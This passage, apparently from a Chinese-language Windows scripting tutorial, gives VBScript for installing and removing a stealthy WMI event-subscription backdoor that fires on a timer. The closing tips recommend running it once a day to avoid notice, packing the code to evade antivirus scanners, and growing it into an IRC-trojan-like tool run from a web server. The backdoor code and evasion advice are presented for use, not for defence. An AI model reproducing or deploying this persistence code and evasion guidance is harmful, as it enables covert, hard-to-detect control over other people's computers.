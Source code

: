 	set itimer=getobject(nslink&"__IntervalTimerInstruction").spawninstance_
	itimer.timerid=doorname&"_itimer"
	itimer.intervalbetweenevents=runinterval
	itimer.skipifpassed=false
	itimer.put_

'配置事件过滤器'

	set evtflt=getobject(nslink&"__EventFilter").spawninstance_
	evtflt.name=doorname&"_filter"
	evtflt.query="select * from __timerevent where timerid="""&doorname&"_itimer"""
	evtflt.querylanguage="wql"
	set fltpath=evtflt.put_

'绑定消费者和过滤器'

	set fcbnd=getobject(nslink&"__FilterToConsumerBinding").spawninstance_
	fcbnd.consumer=asecpath.path
	fcbnd.filter=fltpath.path
	fcbnd.put_
	
	wscript.echo "安装完成"

与前一个永久事件处理过程不同的是，脚本后门的事件源是计时器，在每个名字空间都可以实例化并触发事件。所以，不一定要将ASEC安装到root/cimv2。特别是XP/2003，ASEC默认已经安装到root/subscription，只需要相应修改nslink的值，就可以安装脚本后门了。

卸载脚本后门：

	cmdl="HKLM/SOFTWARE/Microsoft/WBEM/CIMOM/CmdLength"
	createobject("WScript.Shell").regdelete cmdl '删除保存命令长度的键值'
	nslink="winmgmts://./root/cimv2:"
	doorname="vbscript_backdoor" '根据脚本后门的名字找到各个对象实例'
	myconsumer=doorname&"_consumer"
	mytimer=doorname&"_itimer"
	myfilter=doorname&"_filter"
	set binds=getobject(nslink&"__FilterToConsumerBinding").instances_
	for each bind in binds
	if strcomp(right(bind.consumer,len(myconsumer)+1),myconsumer&chr(34),1)=0 _
	and strcomp(right(bind.filter,len(myfilter)+1),myfilter&chr(34),1)=0 then
	bind.delete_
	exit for
	end if
	next
	getobject(nslink&"ActiveScriptEventConsumer.Name="""&myconsumer&"""").delete_
	getobject(nslink&"__IntervalTimerInstruction.TimerId="""&mytimer&"""").delete_
	getobject(nslink&"__EventFilter.Name="""&myfilter&"""").delete_
	wscript.echo "卸载完成"

几点补充说明：

1，脚本后门的优势在于隐蔽，所以24小时才运行一次是合适的。不用担心因为系统关机而错过运行机会，下次启动时会补上的。

2，为了更好的反查杀，可以给脚本后门的核心代码加壳。在功能上也可以改进到接近IRC木马的程度，只不过服务端是Web服务器，不能同时养太多的马。

3，脚本后门的自启动和运行依赖于WMI服务，虽然禁用WMI服务就可以杜绝此类后门和木马，但比起通过注册表启动还是可靠的多。如果被蠕虫病毒利用，恐怕会很麻烦吧。

# 【结语】 #
Windows脚本就像万能胶，能够把独立的程序、服务、控件组合起来完成任务。脚本编程的技巧就是组合的技巧。XP和2003比2000自带更多的命令行工具，WMI也大大加强了，脚本的功能水涨船高，可以说是“只有想不到，没有做不到”。一切有待你的发掘。
